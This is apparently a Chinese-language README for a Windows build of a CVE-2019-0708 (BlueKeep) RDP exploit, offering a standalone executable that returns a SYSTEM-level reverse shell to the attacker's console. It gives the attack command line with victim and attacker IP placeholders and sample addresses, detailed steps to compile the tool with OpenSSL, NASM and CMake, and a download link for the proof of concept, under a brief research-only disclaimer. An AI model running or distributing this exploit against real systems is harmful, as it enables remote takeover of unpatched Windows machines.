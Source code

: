# CVE-2019-0708-EXP-Windows-Version

#### 申明

作者poc仅供研究目的,如果读者利用本poc从事其他行为,与本人无关

#### 目录
[toc]

#### 介绍

CVE-2019-0708-EXP-Windows版单文件exe运行,无需linux,python,ruby等,运行后直接在当前控制台反弹System权限Shell

编译采用全静态库模式内联所有dll,集成netcat和openssl,支持进度条显示,shell回显操作

### 复现环境 ###
1. 被攻击者操作系统Victim:Windows 7 sp1 x64位操作系统
2. 攻击者操作系统Attacker:Windows 10 x64位操作系统
3. 编译环境Visual Studio 2013

#### 使用说明

1. 进入CVE-2019-0708-EXP-Release目录
3. 运行wfreerdp.exe /v:Victim_IP /l:Attacker_IP,如wfreerdp.exe /v:10.120.1.160 /l:10.120.1.17

#### 安装教程

1. 复制FreeRDP-master项目至E:\git\KernelResearch\FreeRDP-master\
2. 安装Openssl编译环境,或者直接解压openssl.7z至C:\openssl\使用已编译好的Openssl环境
3. 安装Nasm编译环境
5. 以管理员身份安装cmake-3.15.3-win64-x64.msi
6. 添加C:\Program Files\CMake\bin至path环境变量
5. 重启计算机
8. 运行"C:\Program Files\CMake\bin\cmake.exe" E:\git\KernelResearch\FreeRDP-master\CMakeCache.txt
9. 编译项目,如果发现仍然缺少文件,可以从FreeRDP-master-restore.7z还原

##### Openssl编译环境安装教程
1. 解压openssl-1.0.2s.tar.gz至C:\openssl\
2. 安装ActivePerl-5.28.1.0000-MSWin32-x64-fde9aa8a.msi
3. 添加C:\Perl64\bin至path环境变量
4. 打开VS2013 x64 本机工具命令提示,在开始菜单中可以找到
5. 运行 perl Configure VC-WIN64A
6. 运行 cd /d C:\openssl\
7. 运行 ms\do_win64a 
8. 接下来开始编译,可以采用以下几种模式,exp中采用的是静态库模式:
编译OpenSSL动态库：nmake -f ms\ntdll.mak
编译OpenSSL静态库：nmake -f ms\nt.mak
测试OpenSSL动态库：nmake -f ms\ntdll.mak test
测试OpenSSL静态库：nmake -f ms\nt.mak test
安装OpenSSL动态库：nmake -f ms\ntdll.mak install
安装OpenSSL静态库：nmake -f ms\nt.mak install
清除上次OpenSSL动态库的编译，以便重新编译：nmake -f ms\ntdll.mak clean
清除上次OpenSSL静态库的编译，以便重新编译：nmake -f ms\nt.mak clean
9. 完成后自己去out32下找libeay32.lib和ssleay32.lib文件复制到C:\openssl\lib\

##### Nasm编译环境安装教程

1. 以管理员身份安装nasm-2.14.02-installer-x64.exe
2. 添加C:\Program Files\NASM至path环境变量
3. 解压nasmBuildCustomizations.rar其中3个文件至C:\Program Files (x86)\MSBuild\Microsoft.Cpp\v4.0\V120\BuildCustomizations\
4. 选中client->common->freerdp-client工程目录右击->"生成依赖项"->"生成自定义"，然后勾选nasm这一项(注意不是masm)
5. 如果在freerdp-client工程中选择任意asm文件,右键菜单出现编译选项,即表示Nasm编译环境安装成功

#### 运行效果

![点击查看大图](https://ftp.bmp.ovh/imgs/2020/01/b7f6ac6c6f9f20d6.png)

#### 项目托管

[我的poc地址](http://u.720life.cn/g/2e71d0f0a5c601172267ba20d3a43c6ed7adaf87a137438e4fa8446c30ffe4fb1671f6f1364f79b43870f140783fba5477bb602c33c22e91b5a5f24b3ee73c14  "poc")


#### 参与贡献

作者来自ZheJiang Guoli Security Technology,邮箱cbwang505@hotmail.com


 # 良心友情链接

[腾讯QQ群快速检索](http://u.720life.cn/s/8cf73f7c)

[软件免费开发论坛](http://u.720life.cn/s/bbb01dc0)